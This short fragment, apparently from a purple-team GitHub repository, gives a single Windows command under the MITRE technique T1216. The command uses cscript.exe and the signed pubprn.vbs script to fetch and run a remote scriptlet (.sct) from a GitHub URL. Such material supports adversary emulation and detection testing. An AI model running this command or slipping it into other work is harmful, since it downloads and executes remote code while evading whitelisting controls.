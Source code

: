 Execute:

C:\Windows\System32>cscript.exe /b C:\Windows\System32\Printing_Admin_Scripts\en-US\pubprn.vbs localhost script:https://raw.githubusercontent.com/void010/purple/main/T1216/test.sct
